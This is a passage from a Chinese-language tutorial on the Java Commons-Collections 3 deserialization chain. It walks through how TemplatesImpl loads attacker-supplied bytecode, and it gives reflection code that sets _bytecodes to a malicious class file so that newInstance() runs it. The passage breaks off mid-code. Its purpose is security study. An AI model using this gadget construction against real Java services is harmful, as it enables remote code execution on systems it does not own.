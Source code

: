```java
        Field field1 = c1.getDeclaredField("_tfactory");
        field1.setAccessible(true);
        field1.set(templates,new TransformerFactoryImpl());


        // 3. 反射调用 defineTransletClasses

        Method method = c1.getDeclaredMethod("defineTransletClasses");
        method.setAccessible(true);
        method.invoke(templates,null);
```

###  4. TemplatesImpl.getTransletInstance()

现在回到正题，因为 defineTransletClasses() 方法的作用域是 **private**，所以我们看一看谁调用了这个方法。

审计发现同类的 `getTransletInstance()` 方法（451 行）调用了 defineTransletClasses() 方法，并且这里（455 行）有一 个 `newInstance()` 实例化的过程。

> 注意到为了进入 451 行，需要 _name 不为空且 _class 为空

源码如下图：

![](https://i.imgur.com/uZNuyPR.png)


**小练习**
由于这一步 455 行的 newInstance()，所以现在可以命令执行了，请写出漏洞 demo。

思路：

阅读源码就可以发现，若要执行到 `defindTransletClasses()` 方法，那么 `_name` 不可为空且 `_class` 要为空。

`_name` 就是一个普通的字符串，我们可以通过反射随意修改。

`_class` 初始为空，之后调用defineTransletClasses() 方法加载我们的恶意类。


**我的代码**
```java
// 1. 定义恶意字节码数组并装入 data1 中
        byte [] data0 = Files.readAllBytes(Paths.get("D:\\IDEAProject\\Reflect\\target\\classes\\security\\java\\cc3\\Calc.class"));
        byte [][] data1 = {data0};

        // 2. 实例化 TemplatesImpl，并反射修改其 _bytecodes 为 data1

        TemplatesImpl templates = new TemplatesImpl();
        Class c1 = templates.getClass();

        Field field = c1.getDeclaredField("_bytecodes");
        field.setAccessible(true);

        field.set(templates,data1);

        Field field1 = c1.getDeclaredField("_tfactory");
        field1.setAccessible(true);
        field1.set(templates,new TransformerFactoryImpl());


        // 3. 反射修改 __name,__class 默认是 null。

        Field field2 = c1.getDeclaredField("_name");
        field2.setAccessible(true);
        field2.set(templates,"mirror4s");


        // 3. 反射调用 defineTransletClasses
```